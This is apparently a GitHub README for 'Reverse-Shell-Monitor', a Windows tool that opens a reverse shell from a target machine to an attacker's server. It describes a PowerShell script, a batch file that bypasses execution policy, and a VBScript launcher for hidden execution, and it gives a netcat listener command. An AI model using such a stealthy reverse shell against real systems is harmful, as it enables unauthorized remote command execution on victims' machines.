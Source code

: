 # Reverse-Shell-Monitor

Reverse-Shell-Monitor is a tool designed to initiate a reverse shell connection between a target machine and a server for administrative or testing purposes. The tool uses PowerShell, Batchfile, and VBScript for creating and running the reverse shell script on Windows systems. It is useful for penetration testers, system administrators, or cybersecurity professionals who need to monitor or execute remote commands on a target machine.
Features

Initiates a reverse shell connection from a target machine to a server.
Allows the server to send commands and receive the execution results from the target machine.
Built with PowerShell for efficient scripting.
Automates the execution with Batchfile and VBScript for stealthy deployment on Windows systems.
Includes error handling to ensure reliability and proper cleanup of resources.

## Code Overview

1. reverse-shell.ps1 (PowerShell Script)

This script opens a reverse shell to the specified IP address and port. The server can send commands to the target, which are executed on the target's machine, and the output is sent back to the server.
Parameters:

IPAddress: The IP address of the server (defaults to 192.168.0.105).
Port: The port to which the reverse shell connects (defaults to 4444).

How it works:

A TCP connection is established to the server.
Commands are received from the server.
The script executes the commands using cmd.exe.
The results of the commands are sent back to the server.
The connection continues until terminated by either side.

2. run_script.bat (Batchfile)

This batch file automates the execution of the PowerShell script while bypassing PowerShell's execution policy restrictions.

3. run_script.vbs (VBScript)

This VBScript runs the batch file in the background without showing the console window, providing stealth execution.

## Installation

Clone the repository:

    git clone https://github.com/your-username/Reverse-Shell-Monitor.git
    cd Bare_metal

Modify the reverse-shell.ps1 script with your server's IP address and port:

    Start-ReverseShell -IPAddress 'YOUR_SERVER_IP' -Port YOUR_PORT

Place the run_script.bat and run_script.vbs files in the same directory as reverse-shell.ps1.

Run the run_script.vbs file to start the reverse shell in the background:
Double-click the .vbs file for stealth execution.

## Usage

Start a listener on your server (using Netcat or another tool):

    nc -lvp 4444

Once the target machine runs the script, you can begin sending commands to the target.

## Disclaimer

This project is for educational purposes only. Unauthorized use of this tool is prohibited. The authors are not responsible for any misuse or damage caused by this software.

## Tags

    Python
    PowerShell
    Shell
    VBScript
    Batchfile

## License

This project is licensed under the MIT License.

## Contributors

    Gideon Kipamet - [GitHub](https://github.com/Giddy-K)

Feel free to contribute and add your socials, GitHub profile, or name here.
